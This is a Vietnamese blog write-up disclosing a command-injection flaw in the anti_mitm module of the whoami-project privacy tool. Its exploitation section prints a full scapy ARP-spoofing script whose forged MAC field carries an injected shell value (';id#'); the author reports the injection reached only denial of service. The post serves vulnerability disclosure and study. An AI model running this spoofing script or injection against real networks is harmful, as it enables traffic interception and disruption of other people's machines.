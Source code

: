 ```yaml
---
title: "ARPSPOOF và CVE đầu tiên"
date: 2024-09-17
---
```


# Mở đầu
Trong bài viết này chúng ta sẽ cùng đi qua 1 open-source project khá nổi nhưng hiện giờ không còn maintain nữa đó là [whoami-project](https://github.com/owerdogan/whoami-project).
Đây là 1 công cụ về bảo mật cá nhân "giúp nâng cao quyền riêng tư và ẩn danh" trên các hệ điều hành Linux. Project này có 1 module tên là anti_mitm cho việc "Automatically bans the attacker when you come under a Man In The Middle attack", nhưng mà module này lại có 1 lỗ hổng khá nghiêm trọng mà mình nhận thấy và phía dưới ta sẽ cùng phân tích kĩ hơn.
                                                                                                                                      
## Setup môi trường
Trong scenario của attack này, ta sẽ có 2 machine:
- Attacker: Attacker machine mình sẽ sử dụng Kali VM với IP 192.168.98.132
- Victim: Phía victim machine sẽ là Ubuntu với IP 192.168.98.133
- Cài đặt project ở bên máy victim:

![image](https://gist.github.com/user-attachments/assets/279e460c-0242-4dc9-b15a-96670767d287)

# Phân tích
## Cấu trúc project
Sau khi cài đặt xong, ta khởi chạy chương trình như bên dưới và ta có thể thấy sẽ có vài option cho các arguments mà project cho phép.  

![image](https://gist.github.com/user-attachments/assets/de2140e6-07c4-4f8a-a7c4-7e59ff7843c3)

Khi chạy lệnh "sudo kali-whoami --start" ta sẽ được menu trông như sau:

![image](https://gist.github.com/user-attachments/assets/7fbba0cf-3736-4040-8725-a038dae73db9)

Có vẻ như trong menu trên thì đó là các module, function mà ta có thể chọn để sử dụng, thay vì nghịch thử các options thì mình đi tìm thẳng source code cho các function trên luôn, ở phía dưới sẽ là cấu trúc thư mục của project, ta có thể thấy là có vẻ như source code của các module, function trên sẽ nằm ở thư mục whoami-project/assets/scripts/

![image](https://gist.github.com/user-attachments/assets/80e512b7-f714-4d1b-9dec-b38b13ad7f35)

Sau 1 hồi đọc hết tất cả các file trong thư mục whoami-project/assets/scripts/, thì có 1 file mình để ý nhất đó là anti_mitm, và dưới đây là đoạn code của nó:

![image](https://gist.github.com/user-attachments/assets/08e6a403-de64-49b8-bc8d-650f993f1ae2)

Module này sẽ dùng cho việc ngăn việc bị tấn công Man in the middle (MITM) bằng cách kiểm tra những gói ARP gửi đến và nếu như có dấu hiệu cho việc ARP spoofing thì sẽ viết ra rule firewall để drop hết tất cả các requests đến từ địa chỉ MAC spoofing

## Phân tích luồng thực thi
Đọc file kali-whoami.sh, tức là file dùng để khởi động chương trình, như bên dưới ta sẽ thấy các options, các module, function của project được list ra:

![image](https://gist.github.com/user-attachments/assets/ad1912d3-b1f8-4ec7-bcbe-77cc293cfaa0)

Và dưới đây sẽ là đoạn code phụ trách cho việc khởi động module anti_mitm:

![image](https://gist.github.com/user-attachments/assets/5993e97d-46e1-402c-b5cc-ce2a16ce08c5)

Ta thấy chương trình sẽ cần ta chạy ở quyền root, và nếu ta chọn module anti_mitm thì sẽ tương đương với việc chạy command:
```
sudo python3 /usr/share/kali-whoami/assets/scripts/anti_mitm
```
Giờ ta sẽ đi vào đoạn code và cách hoạt động của file anti_mitm.

## Phân tích lỗ hổng

![image](https://gist.github.com/user-attachments/assets/663b76b7-75d1-4046-9af3-72a8131fd183)

![image](https://gist.github.com/user-attachments/assets/b76a6475-0dfe-4243-9eec-ceafa63b8080)

![image](https://gist.github.com/user-attachments/assets/938dce10-4330-4d81-98b4-7fdce3cd4be5)

![image](https://gist.github.com/user-attachments/assets/3e3ae611-6a8b-4706-80cb-05ab2b9762a3)

![image](https://gist.github.com/user-attachments/assets/76f1a445-d809-4dd6-ad10-1bac2863a9af)

# Khai thác

Nhưng mà quan trọng là nếu ta thực sự có thể command injection được vào đoạn command kia thì ta sẽ thành được cả root của machine, đơn giản là vì đoạn code này sử dụng scapy, mà scapy sử dụng Python socket library để tạo raw sockets, và để tạo được raw sockets thì sẽ phải cần quyền của root.

Ref: https://stackoverflow.com/questions/22421290/scapy-operation-not-permitted-when-sending-packets#:~:text=Scapy%20needs%20root%20privileges%20to,the%20Linux%20raw%20man%20pages

Đây sẽ là đoạn code exploit của mình:
```
import scapy.all as scapy 
import time 
  
def get_mac(ip): 
    arp_request = scapy.ARP(pdst = ip) 
    broadcast = scapy.Ether(dst ="ff:ff:ff:ff:ff:ff") 
    arp_request_broadcast = broadcast / arp_request 
    answered_list = scapy.srp(arp_request_broadcast, timeout = 5, verbose = False)[0] 
    return answered_list[0][1].hwsrc 
  
def spoof(target_ip, spoof_ip): 
    packet = scapy.ARP(op = 2, pdst = target_ip, hwdst = get_mac(target_ip), psrc = spoof_ip, hwsrc=";id#") # Payload ở đây
    scapy.send(packet, verbose = False) 
  
  
def restore(destination_ip, source_ip): 
    destination_mac = get_mac(destination_ip) 
    source_mac = get_mac(source_ip) 
    packet = scapy.ARP(op = 2, pdst = destination_ip, hwdst = destination_mac, psrc = source_ip, hwsrc = source_mac) 
    scapy.send(packet, verbose = False) 
      
  
target_ip = "192.168.98.133"
gateway_ip = "192.168.98.1"
  
try: 
    sent_packets_count = 0
    while True: 
        spoof(target_ip, gateway_ip) 
        spoof(gateway_ip, target_ip) 
        sent_packets_count = sent_packets_count + 2
        print("\r[*] Packets Sent "+str(sent_packets_count), end ="") 
        time.sleep(2)
  
except KeyboardInterrupt: 
    print("\nCtrl + C pressed.............Exiting") 
    restore(gateway_ip, target_ip) 
    restore(target_ip, gateway_ip) 
    print("[+] Arp Spoof Stopped") 

```
Đoạn code trên sẽ gửi packet kèm với địa chỉ MAC malicious như trên để test, mỗi 2 giây đoạn code sẽ gửi packet này lại 1 lần.

![image](https://gist.github.com/user-attachments/assets/912db067-6bec-4e3e-a206-fb88a00531b0)

Sau khi thực thi đoạn code exploit thì ở bên phía attacker, nếu như ta gọi đến module đó, và quan trọng là module này chắc chắn phải ở quyền của root thì mới có thể chạy được ở phía victim:

![image](https://gist.github.com/user-attachments/assets/1576e27c-06c1-4066-bac5-1905b38a8bdc)

Ta thấy sau khi thực hiện ARP attack, payload của ta sẽ được bytes object và khi đi vào code sẽ trở thành cộng chuỗi với bytes và xảy ra lỗi. 

Vậy liệu có cách để mà làm cho payload này trở thành hoạt động được không, nó cũng đồng nghĩa với việc là ta cần phải làm cho payload tự động decode lại thành string, nhưng đáng buồn là ta chỉ làm được 9 điểm thôi, câu điểm 10 để lại vậy =)))) Impact đến đây dừng lại ở DOS nhưng ít ra ta cũng có cách để ngăn cho rule firewall không được viết ra khi victim sử dụng service. 

Sau khi làm được từ đầu đến cuối lỗ hổng này thì mình cũng tìm cho mình được 2 cái "CVE cỏ" nhờ vào việc tập cách setup rồi debug các kiểu, feels good man :D Còn nếu bro nghĩ như title là tôi sẽ phân tích cách tìm CVE đầu tiên như nào thì thôi không có đâu, chỉ thông báo flex thế thôi chứ còn CVE xịn rồi ngồi phân tích sau :v                                                                                                                               
                                                                                                                                      
